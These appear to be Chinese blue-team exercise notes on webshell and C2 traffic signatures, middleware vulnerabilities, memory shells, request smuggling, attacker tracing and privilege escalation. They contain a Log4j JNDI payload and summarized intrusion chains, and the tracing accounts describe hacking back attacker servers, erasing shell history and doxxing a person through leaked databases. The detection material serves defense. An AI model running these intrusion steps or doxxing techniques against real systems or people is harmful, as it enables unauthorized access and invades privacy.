










# hvv

+ 蓝队视角目的

  + 避免减分
  + 提前拦截
  + 控制风险
+ 工作

  + 通告处置
  + 封堵封禁
  + 监控预警
  + 分析研判
  + 应急响应
  + 事件上报
  + 策划优化
  + 溯源
  + 安全巡查
+ 分组
+ 
+ 注意

## 流量分析

+ 菜刀

  + 常用百度，火狐UA
  + 带一个固定字符串 QGluaV9zZX...
  + 数据变量常为z0,z1,z2
+ 蚁剑

  + 请求体固定@ini_set(“display_errors”, “0”);@set_time_limit(0)
  + 常用base64
+ 冰蝎

  + 2.0
    + 请求返回一个16位的key
  + 3.0
    + 使用二进制协议
    + content-type一定为application/octet-stream
    + Accept&Cache-Control
  + 4.0
    + 使用http协议
    + Connection：Keep-alive
    + Application/x-www-form-urlencoded
    + 请求获取一个密钥，生成随机数前16位MD5作为key返回给客户端
    + AES,XOR
  + 
+ 哥斯拉

  + base64 异或或者AES，返回带有脏字符
+ CS

  + 50050
+ MSF

  + 4444
+ **weblogic**

  + 7001
+ **shrio**

  + 分为550和721，550是反序列化，721是加密解密，550不需要rememberMe Cookie解密，721需要来remenberMe Cookie解密；
+ fastjson

  + @type,rmi,ladp等字符
+ CS

  + http特征，get请求对url请求资源文件，取决于c2的profile的设置，请求头一般用base64加密后的
  + https特征，空证书或默认证书或伪造大厂证书建立加密通道
  + dns特征，默认使用cdn,www6,api,www,post,为请求头发起dns请求 返回结果一般为非常规ip
  + 心跳包，有规律的通信
+ ICMP马

  + 请求type=8，响应type=0，请求过于重复，数量多
+ frp

  + 流量明文带有version,os,arch,privilege_key信息
+ 从协议来看是看不出什么的，从请求来看，可以发现每个请求都会有对应的返回包，且端口总是其中一个是固定的

  + SPP
  + IOX
+ reGeorg

  + 通过整个http隧道的建立过程的流量分析，可以看到起初是通过tunnel.jsp，connect内网指定ip的指定端口，然后read读取，通告其内容编码为identity，采用分块传输，最后disconnect关闭连接

## 日志分析

+ sql
  + 报错注入函数
    + exp
    + ypdatexml
    + extractvalue
  + 盲注
    + 有规律的重复SQL语句，个别不同
+ 

## IP

+ 私有
  + 10.0.0.0/8
  + 172.16.0.0/12
  + 192.168.0.0/16
+ 回路
  + 127.0.0.0/8

额外知识

+ CDN提供多个节点，缓存分发数据，达到负载均衡，攻击者的域名挂靠CDN使得真实IP地址难以溯源
  + 溯源：联系CDN厂商，查看域名历史解析IP，同站资源，SSL证书

## 经历

+ https://mp.weixin.qq.com/s/vK0_zDKIYn8VSnXRoBFcng
  + 扫描旁站子域名得到一个bbs论坛通过弱口令进入后台
  + 发布一个贴子，burp抓包修改附件后缀上传webshell，到后台的附件管理找到路径（文件名被随机）
  + 成功连接到服务器XP系统，没开3389端口，使用procdump配合猕猴桃获取到密码，使用MSF马上传运行，开启3389端口转发
  + rdp扫描爆破，得到一个弱口令，连接，搭建个socks5跳板，扫描端口发现一个H3C监控服务
+ https://mp.weixin.qq.com/s/8ohHHXVRjRRYbum9UDcDfA
  + 资产其中有个xx中学门户网站，通过目录扫描得到接口未授权访问ajax，其中有个readDBrows可读取数据库，成功读取管理员账号密码，通过扫描目录得到的后台地址登陆其中，发现是一个老师自主开发的管理系统
  + **发现数据库管理内有众多学生老师信息2W+**
  + 其中文件管理功能可以上传文件，上传一个免杀图片马，重命名为.ashp成功解析，权限为IIS，上传免杀CS马上线，提权失败，存在杀软，系统是2016 server
  + 在web.config找到数据库连接账号密码，利用mssql的xp_cmdshell以数据库system权限执行
  + 使用猕猴桃利用Hash进行远程桌面连接，失败，修改策略允许PTH登陆，成功
  + Fscan扫描得到一个车牌登记系统，没有可利用漏洞，扫描到众多个人PC

## 中间件漏洞

+ IIS

  + PUT漏洞，短文件名猜解，RCE，解析漏洞
+ apache

  + 目录遍历，解析漏洞
+ Nginx

  + 目录遍历，解析漏洞，CRLF注入，目录穿越
+ Tomcat

  + RCE，war后门
+ JBoss

  + 反序列化，war后门
+ WebLogic

  + 反序列化，SSRF，任意文件上传，war后门
  + https://xz.aliyun.com/t/12452
  + T3协议多工双向
    + C-协议协商 t3 x.x.x AS:255 HL:19
    + S-收到回复 HELO ... HL:19
  + weblogic.rjvm.t3下的接口请求
  + 内存马：
    + 成因：客户端通过T3协议反序列化漏洞远程绑定一个实例对象，绑定后使用lookup查找该实例调用，实现t3后门
    + 措施：通过weblogic的jndi树判断是否被注入了t3协议后门
+ struct

  + Content-Type的header头执行命令
    + 045错误引用了ognl表达式
    + 048封装action的时候有一步调用getstackvalue递归获取ognl表达式
    + 016 *action redirect附带ognl表达式*
+ shiro

  + 550
    + 记住密码 RememberMe
    + 命令->序列化->AES->base64->cookie值
  + 721
    + AES-128-CBC对cookie的RememberMe加密
    + 通过

  ```sql
  Shiro550只需要通过碰撞key，爆破出来密钥，就可以进行利用
  Shiro721的ase加密的key一般情况下猜不到，是系统随机生成的，并且当存在有效的用户信息时才会进入下一阶段的流程所以我们需要使用登录后的rememberMe Cookie，才可以进行下一步攻击

  ```
+ log4j

  + 处理日志时存在JNDI注入
  + payload:${jndi:ldap://127.0.0.1/exploit}
  + 解析发现是JNDI的扩展内容再进一步解析发现是LDAP协议的服务器查找key是exploit，当exploit是java恶意对象就可以造成RCE
+ springboot
+ 

## 内存马

+ php（不死马）

  + ignore_user_abort(true);忽略用户终止连接
  + set_time_limit(0);时间限制0
  + `unlink(__FILE__);`删除自身
  + 无限循创建木马.shell.php 并且usleep(5000)休眠5秒
  + 措施：同名覆盖，kill -9 pid，重启php服务器
+ python
+ java

  + servlet-api
    + filter型，servlet型，listener型
  + spring
    + 拦截器，controller型
  + instrumentation
    + agent型
  + 措施：web日志带有很多404但带有参数请求，或者不同url有相同参数请求，不存在的页面返回200请求，查看中间件日志分析是否有RCE和webshell，排查框架的漏洞，反序列化漏洞，url最早访问时间确定注入时间
  + 特征：aced0005，rO0AB 开头 都为反序列化
  + 对用户输入数据进行反序列化处理
  + ObjectinputFilter校验反序列化的类，Hook resolveClass校验
+ 措施：阿里巴巴的arthas，VisualVM

## HTTP请求走私

+ 由于pipeline机制 任务被分成多个阶段 流水线处理
+ 分为
  + CLTE 前端contentlength 后端 transferencoding
  + TECL
  + TETE
+ 前端允许GET携带content-length而后端不允许则构造payload 
+ 两个CL不同应当返回400，不遵守规范导致的请求附带
+ 发送带CL-TE，前端处理CL，后端TE，因规范，CL应该忽略，导致请求附带
+ 与上面相反
+ TETE 都请求Transfer-Encoding，但可能请求Transfer-encoding导致请求附带

## 研判

+ 判断

  + 可误报但不可漏报
  + 设备的告警信息，数据包请求包请求体返回包返回体，响应200的重点关注
  + 对可疑IP的请求为索引，查看现在请求和过去请求
  + UA头
  + 复现请求
    + 使用自己热点
+ 思路

  + 攻击的方向确定，内外，外内，内内
  + 是什么，什么时候，成功与否，之前的请求
  + 攻击者IP情报搜集
  + 样本分析

## 溯源

+ 捕获 处置 画像
+ 捕获

  + 钓鱼邮件
  + 安全设备记录的日志 流量数据分析
  + 蜜罐溯源追踪
+ 处置

  + 域名whois
  + IP
  + 身份
  + 证书
  + 文件
  + 样本
+ 画像

  + 攻击路径
  + 攻击目的
  + 代理手段
  + 攻击手段
  + 身份
    + 网名 id 昵称
    + 姓名 家庭 办公地址
    + 手机号qq微信 邮箱
    + 单位每次 职位
+ 经历

  + 收到一个ip
  + 查询ip归属地为 马来西亚
  + 使用nmap简单探测，第二次发现被封ip
  + 使用在线的端口探测工具扫描得到22 3306
  + 使用代理上AWVS扫描成功得到一个php的RCE漏洞
  + 验证后反弹shell，先执行set +o history 关闭历史记录 后使用history -d id 删除刚刚的记录
  + last查看最近登陆信息 都为本机ip，uname -a 查看内核版本 查看是否有提权漏洞 放弃
  + netstat -ano 导出ip 发现有一个中国阿里云节点ip，还有一个俄罗斯ip
  + top 查看占用CPU的进程 发现一个kdevtmpfsi进程，搜索后发现是个挖矿木马 占用大 并使用systemctl status pid 查看进程 发现有守护进程 kill -9 结束掉 find / -name 通配符匹配木马名字 rm -rf 删除
  + 再次netstat -ano 发现俄罗斯ip已经不见了，应该是挖矿池的key
  + 在线端口扫描阿里云服务器 查到80端口，考虑dirsearch一下 无果
  + 深入查找端口 nmap全端口探测一下，发现8088 tomcat服务，并且使用弱口令成功进入使用 jar cvf test.war test.jsp 部署war包木马 成功反弹shell
  + last 查看最近登陆信息 有香港 台湾 马来西亚的
  + histroy中也查到 nc 马来西亚ip的痕迹，其中有个记录看到一个ip访问得到是一个在线的ARL灯塔资产收集，默认密码直接进去，发现是一个正在使用的资产收集平台。对此ip进行反查，得到域名解析记录，whois查询得到所有者的手机号 邮箱 姓名，通过qq邮箱的qq查到个人资料卡，承接各种渗透测试服务，后续进行社工库查询，得到住址老密身份证信息。
+ 经历

  + 收到一个域名，此域名套用CF，且服务器已经关闭，没有备案信息。
  + 谷歌搜索不到结果，要放弃的时候，使用github查域名，得到了一个mysql连接的docker-compose 代码片段，得到数据库连接密码 以及ip地址
  + navicat连接不上，但访问此代码片段的8080服务得到一个类似OA的界面
  + 弱口令admin/admin进去了（竟然是以admin?user=admin&password=admin的），发现一个文件管理可直接下载文件，VPN使用手册201903.doc pass.txt VPNclient64.zip
  + 下载文件得到一个VPN客户端（图标有点怪）
  + 拖入虚拟机分析，火绒剑打开提示（当前系统不兼容）考虑开启了anti-vm
  + 但发现进程的图标是一个书信笔，经典的python tk库gui
  + pyinstxtractor.py 对exe解包后得到pyc字节码文件 使用pycdc解密得到后门的main函数中调用了一个test函数 其中是解密执行恶意shellcode代码。对shellcode提取，找到其中的c2ip地址:xxx.cn 查询dns解析得到一个浙江ip，whois反查也成功得到姓名邮箱，其中邮箱在微信公众号中搜索得到一个公众号信息。

## 提权

+ windwos

  + 补丁系统提权

    + systeminfo获取补丁信息
    + 补丁对比使用 https://i.hacking8.com/tiquan/
    + 利用对应CVE的EXP来实现提权
  + UAC

    + https://github.com/hfiref0x/UACME
  + 口令窃取提权

    + Juicypotato
      + 如果开启SeImpersonate权限，juicypotato的参数可以使用-t t
      + 如果开启SeAssignPrimaryToken权限，juicypotato的参数可以使用-t u
  + 组策略配置提权
  + 第三方应用漏洞提权
+ linux

  + suid提权
  + 计划任务提权 最经典的就是配合redis
  + mysql提权 UDF
  + docker提权
  + ssh密钥提权
  + 内核提权uname -a再 searchsploit
